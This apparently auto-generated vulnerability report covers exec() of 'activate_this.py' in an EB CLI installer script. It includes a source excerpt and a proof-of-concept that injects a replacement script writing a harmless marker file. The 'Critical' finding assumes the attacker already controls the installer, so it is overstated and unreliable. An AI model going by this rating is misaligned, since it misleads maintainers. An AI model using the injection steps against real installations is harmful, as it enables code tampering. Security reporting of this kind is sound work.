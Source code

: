 - Vulnerability Name: Arbitrary Code Execution via Malicious Virtual Environment Activation Script
- Description:
    1. An attacker socially engineers a user into downloading and running a modified version of `ebcli_installer.py`.
    2. The modified script is designed to replace the legitimate `activate_this.py` script within the virtual environment with a malicious version.
    3. The `ebcli_installer.py` script proceeds to create a virtual environment as usual, but it places the attacker's malicious `activate_this.py` in the virtual environment's activation scripts directory.
    4. During the installation process, the `_activate_virtualenv` function in `ebcli_installer.py` is called.
    5. This function uses `execfile` (Python 2) or `exec(open(...).read())` (Python 3) to execute the `activate_this.py` script located in the virtual environment.
    6. Because the attacker has replaced the legitimate script with a malicious one, the attacker's code is executed with the privileges of the user running `ebcli_installer.py`.
- Impact: Arbitrary code execution on the user's system. An attacker can gain full control over the user's machine, steal sensitive data, install malware, or perform other malicious actions.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations: None. The script does not include any mechanisms to verify the integrity of the `activate_this.py` script or protect against its replacement.
- Missing Mitigations:
    - Code signing for the `ebcli_installer.py` script to ensure users are running a legitimate and unmodified version from the official source.
    - Integrity checks or verification of the `activate_this.py` script before execution. This could involve comparing a hash of the script against a known good value. However, since the attacker controls the installer script, this might be bypassed. A more robust solution would be to embed the necessary activation logic directly within the installer, avoiding external script execution for activation.
- Preconditions:
    - A user must be successfully socially engineered into downloading and executing a modified `ebcli_installer.py` script from a malicious source.
    - The user must have Python and `virtualenv` installed, as mentioned in the prerequisites.
- Source Code Analysis:
    - The vulnerability lies in the `_activate_virtualenv` function in `/code/scripts/ebcli_installer.py`:
    ```python
    @Step('Activating virtualenv')
    def _activate_virtualenv(virtualenv_location):
        # ...
        activate_this_path = os.path.join(
            virtualenv_location,
            VIRTUALENV_DIR_NAME,
            activate_script_directory,
            'activate_this.py'
        )

        if sys.version_info < (3, 0):
            execfile(activate_this_path, dict(__file__=activate_this_path))
        else:
            exec(open(activate_this_path).read(), dict(__file__=activate_this_path))
    ```
    - This function constructs the path to `activate_this.py` within the created virtual environment.
    - It then uses `execfile` or `exec(open(...).read())` to execute the script.
    - If an attacker replaces this `activate_this.py` file with malicious code before this function is called, the malicious code will be executed.
    - The `ebcli_installer.py` script itself does not validate or verify the content of `activate_this.py`. It blindly executes whatever script is present at the constructed path.

- Security Test Case:
    1. **Prepare a malicious `activate_this.py` script:**
        - Create a file named `malicious_activate_this.py` with the following content (example: creating a file in the user's temporary directory):
        ```python
        import os

        malicious_file = os.path.join(os.environ.get("TEMP") or "/tmp", "pwned.txt")
        with open(malicious_file, "w") as f:
            f.write("Successfully exploited via malicious activate_this.py!")

        print("Malicious activate_this.py executed!")
        ```
    2. **Modify `ebcli_installer.py` to inject the malicious script:**
        - Locate the `_create_virtualenv` function in `/code/scripts/ebcli_installer.py`.
        - After the virtual environment creation command (`_exec_cmd(virtualenv_args, quiet)`) and before `_add_ebcli_stamp(virtualenv_directory)`, add code to replace the legitimate `activate_this.py` with the malicious one. The modified section should look like this:
        ```python
        if _exec_cmd(virtualenv_args, quiet) != 0:
            exit(1)

        _add_ebcli_stamp(virtualenv_directory)

        # --- INJECTION START ---
        import shutil
        import os

        malicious_activate_this_source = os.path.abspath("malicious_activate_this.py") # Path to malicious script
        activate_this_destination_dir = os.path.join(virtualenv_directory, '.ebcli-virtual-env', 'bin') # or 'Scripts' on Windows, adapt if needed for test env
        if sys.platform.startswith('win32'):
            activate_this_destination_dir = os.path.join(virtualenv_directory, '.ebcli-virtual-env', 'Scripts')
        activate_this_destination = os.path.join(activate_this_destination_dir, 'activate_this.py')

        shutil.copyfile(malicious_activate_this_source, activate_this_destination)
        print(f"Malicious activate_this.py injected to: {activate_this_destination}")
        # --- INJECTION END ---

        return virtualenv_location
        ```
    3. **Place `malicious_activate_this.py` in the same directory as the modified `ebcli_installer.py`.**
    4. **Run the modified `ebcli_installer.py`:**
        ```bash
        python ./ebcli_installer.py
        ```
    5. **Check for successful exploitation:**
        - After the script execution completes, check for the file `pwned.txt` in your temporary directory (e.g., `/tmp` on Linux/macOS or `%TEMP%` on Windows).
        - The presence of this file indicates that the malicious `activate_this.py` script was successfully executed during the virtual environment activation, confirming the arbitrary code execution vulnerability.